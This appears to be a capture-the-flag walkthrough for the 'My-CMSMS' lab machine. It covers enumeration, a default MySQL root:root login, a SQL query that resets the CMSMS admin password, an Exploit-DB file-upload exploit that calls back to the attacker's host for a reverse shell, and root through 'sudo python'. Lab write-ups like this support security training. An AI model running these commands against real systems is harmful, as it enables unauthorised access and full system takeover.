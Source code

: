 # My-CMSMS

## Nmap

```
sudo nmap 192.168.152.74 -p- -sS -sV

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
3306/tcp  open  mysql   MySQL 8.0.19
33060/tcp open  mysqlx?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Checking out port 80 takes us to the default page for CMS made simple.

![](<../../../.gitbook/assets/image (1177).png>)

I then run dirsearch.py against the host which also discovered phpmyadmin which was locked behind http-basic-auth.

```
python3 dirsearch.py -u http://192.168.152.74  -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 60 --full-url 
```

![](<../../../.gitbook/assets/image (1178).png>)

I attempted to bruteforce the login for phpmyadmin and for CMSMS login. I was unable to find any valid credentials for either.

I was however, able to login to MySQL remotely with the credentials `root:root`.

```
mysql -u root -p -h 192.168.152.74
```

![](<../../../.gitbook/assets/image (1179).png>)

From here we can view the databases and move into the cmsms\_db database.

```
use cmsms_db;
show tables;
```

![](<../../../.gitbook/assets/image (1180).png>)

Looking at the tables that exists in the database we select all columns from cms\_users table.

```
select * from cms_users;
```

![](<../../../.gitbook/assets/image (1181).png>)

This reveals a MD5 password hash for the admin account. I was unable to crack this with several word lists however.

As we are the root account on MySQL we can instead change the password to something we know and use this to login to CMSMS.

Run the following command to create a new password of 'weakpass' for the admin user:

`update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name = 'sitemask'),''),'weakpass'))) where username = 'admin'`

{% hint style="info" %}
[https://cmscanbesimple.org/blog/cms-made-simple-admin-password-recovery](https://cmscanbesimple.org/blog/cms-made-simple-admin-password-recovery)
{% endhint %}

The password has now changed:

![](<../../../.gitbook/assets/image (1183).png>)

We can then move over to the /admin/ directory in the browser and login with the new credentials.

![](<../../../.gitbook/assets/image (1185) (1).png>)

Searching for exploits on CMSMS now that we are authenticated gives a few results.

![](<../../../.gitbook/assets/image (1186).png>)

As we are running version 2.2.13 I will try the Arbitary file upload for version 2.2.14.

{% embed url="https://www.exploit-db.com/exploits/48779" %}

Once the python script was downloaded I executed with the following syntax:

```
python3 48779.py --url http://192.168.152.74/admin/login.php -u admin -p weakpass -lhost 192.168.49.152 -l 80
```

![](<../../../.gitbook/assets/image (1187).png>)

When ready I set a `netcat` listener and prompted the script to continue resulting in a shell as www-data.

![](<../../../.gitbook/assets/image (1188).png>)

Moving around the target machine we have a .htpasswd file hidden in `/var/www/html/admin/`. When running `cat` on the file we get the value `TUZaRzIzM1ZPSTVGRzJESk1WV0dJUUJSR0laUT09PT0=`.

From here we can decode with base64 then base32 as this string is double encoded.

![](<../../../.gitbook/assets/image (1189).png>)

We can then use `su` to switch to the armour account and login with the password we have discovered.

![](<../../../.gitbook/assets/image (1190).png>)

Checking `sudo -l` shows we can run python as root without declaring a password.

![](<../../../.gitbook/assets/image (1191).png>)

We can then spawn a root shell with python.

```
sudo python -c 'import os; os.system("/bin/sh")'
```

![](<../../../.gitbook/assets/image (1192).png>)
